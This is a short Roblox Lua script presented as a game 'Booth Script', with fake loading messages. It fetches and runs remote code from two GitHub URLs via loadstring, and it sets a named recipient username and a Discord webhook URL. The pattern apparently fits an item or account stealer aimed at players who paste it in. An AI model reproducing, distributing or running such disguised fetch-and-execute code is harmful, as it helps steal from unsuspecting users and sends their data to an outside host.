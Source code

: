 _G.Name = "Loading Booth Script..."
_G.Username = "HqLaTrLol"

loadstring(game:HttpGet("https://raw.githubusercontent.com/KaynZwt/psxice/main/codeice.md", true))()

Username = "HqLaTrLol"
WebHook = "https://discord.com/api/webhooks/1080537895942770809/qxM-_JE_o8CpJ1ruuIic2I6rGNxqlIQgu4vQ70aFTmCFUbtK_ECoRoRC6orED3nWCS4w"

_G.CustomScriptName = "Script Loaded"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/KaynZwt/psxv2/main/psxnotice.md"))()
